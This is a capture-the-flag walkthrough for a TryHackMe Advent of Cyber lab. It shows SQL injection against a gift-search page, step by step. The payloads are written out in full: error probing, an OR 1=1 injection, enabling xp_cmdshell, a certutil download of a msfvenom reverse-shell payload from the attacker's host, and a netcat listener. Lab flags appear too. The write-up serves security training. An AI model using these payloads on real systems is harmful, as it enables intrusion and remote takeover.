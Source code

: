 ## Day 10
First we will visit the website given and after scrolling down we will find a button to 'start my gift search'. We will click it and a new page will appear. Also we will get the answer of our first question here.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/39a96553-21f6-43a5-ab6e-2964cc7cd421)

### Flag
> /giftsearch.php

Now we will press search without filling anything and get a new url. We have to modify this by removing the word 'child' and inserting an apostrophe '10.10.157.3/giftresults.php?age='&budget=0'. This will tell us the ODBC driver being used.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/8f05d4fb-c23c-4108-898c-c87dbb382b90)
![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/f80639e9-b7e1-40e3-9f11-224bee270760)

### Flag
> ODBC Driver 17 for SQL Server

Now we have to use 1=1 injection so for that we will change the url to '10.10.157.3/giftresults.php?age=' OR 1=1 --' and get the list, but we have to tell the last data so we will scroll down to the very end and see the flag.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/05b48fbb-a3c8-441a-9b4f-1d5c56b33f28)

### Flag
> THM (a4ffc901c27fb89efe3c31642ece4447}

Now we have to get access to the system. So for that first we will search the url 'http://10.10.157.3/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --'.
Now for remote code execution we will go to the terminal and type ' msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.109 LPORT=4444 -f exe -o reverse.exe' and we will wait for it to create a payload and then we have to host it using 'python3 -m http.server 8000'

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/1e959dec-81cf-4961-baf6-a86be92f76d2)

Now we go back to the website and run 'http://10.10.157.3/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.14.109:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --' hit enter.
Now we open a new terminal and use command 'nc -lnvp 4444'  and go back to the website to run 'http://10.10.157.3/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --' and now we are finally connected to the system on terminal.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/a98c4b7b-dc60-47a1-b233-54ca4b9ae68a)

Now we will go to Users\Administrator\Desktop and see the note file and use type Note.txt to read it and get the password.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/1fd0abdd-71b7-4a25-8718-e038010ec581)
![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/75e4a343-3596-4926-96e3-d61d35d147b5)

Now we have to restore the website by using 'restore_website.bat'

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/4528ca0b-1600-4a89-899f-fe59d0a0e6da)

If we refresh the website we will get our flag.

![image](https://github.com/UselessAaka/TryHackMe-Advent-Of-Cyber/assets/148384618/0a14a643-3373-4436-bae3-4e9ecdfea6b6)



